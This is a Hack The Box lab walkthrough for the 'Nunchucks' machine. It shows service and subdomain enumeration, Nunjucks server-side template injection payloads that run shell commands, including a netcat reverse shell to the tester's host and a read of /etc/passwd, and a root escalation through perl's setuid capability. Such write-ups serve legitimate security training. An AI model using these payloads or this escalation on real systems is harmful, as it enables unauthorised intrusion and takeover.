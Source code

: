 ```yaml
---
title: Nunchucks - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Nunchucks - A Hack The Box machine


## User's flag

###  Enumeration

```shell-session
nmap -sC -sV 10.129.95.252 -Pn
```

Open ports: 22, 80, and 443.

Also http://nunchucks.htb is in results.

Adding IP and domain nunchucks.htb to /etc/hosts.

```shell-session
whatweb http://nunchucks.htb 
```

And some directory enumeration:

```
feroxbuster -u https://nunchucks.htb -k
```

Results:

```
200      GET      250l     1863w    19134c https://nunchucks.htb/Privacy
200      GET      245l     1737w    17753c https://nunchucks.htb/Terms
200      GET      183l      662w     9172c https://nunchucks.htb/login
200      GET      187l      683w     9488c https://nunchucks.htb/signup
```

Trying to login into the application or signing up returns the following response message:

```
{"response":"We're sorry but user logins are currently disabled."}

{"response":"We're sorry but registration is currently closed."}
```

Now, we will try some subdomain enumeration

```shell-session
wfuzz -c --hc 404 -t 200 -u https://nunchucks.htb/ -w /usr/share/dirb/wordlists/common.txt -H "Host: FUZZ.nunchucks.htb" --hl 546
# -c: Color in output
# –hc 404: Hide 404 code responses
# -t 200: Concurrent Threads
# -u http://nunchucks.htb/: Target URL
# -w /usr/share/dirb/wordlists/common.txt: Wordlist 
# -H “Host: FUZZ.nunchucks.htb”: Header. Also with "FUZZ" we indicate the injection point for payloads
# –hl 546: Filter out responses with a specific number of lines. In this case, 546
```

Results: store

We will add store.nunchucks.htb to /etc/hosts file.


### Exploitation

Browsing https://store.nunchucks.htb is a simple landing page to collect emails. There is a form for this purpose. After fuzzing it with Burpsuite we find this interesting output:

![Example](img/nunchucks_1.png)

Some code can get executed in that field. This vulnerability is known as [Server-side Template Injection (SSTI)](server-side-template-injection-ssti)

Once we have an injection endpoint, it's important to identify the application server and template engine running on it, since payloads and exploitation pretty much depends on it.

From headers response we have: "X-Powered-By: Express". 

Having a look at template engines in Express at [https://expressjs.com/en/resources/template-engines.html](https://expressjs.com/en/resources/template-engines.html), there exists a **[Nunjucks](https://github.com/mozilla/nunjucks)**, which is close the domain name nunchucks. 

This blog post describe how we can exploit this vulnerability: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine


Basically, I'm using the following payloads:

```
{{range}}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f')\")()}}
```

The last one is a reverse shell. Before running it in BurpSuite Repeater, I've setup my listener with netcat on port 1234.


## Root's flag

### Privileges escalation

We'll abuse some [process capability vulnerability](process-capabilities-getcap.md) to escalate to root. First we list processes capabilities:

```
getcap -r 2>/dev/null
```

Result:

```
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We will use perl binary to escalate. 

```
echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > pay.pl
chmod +x pay.pl
./pay.pl
```

And you are root.

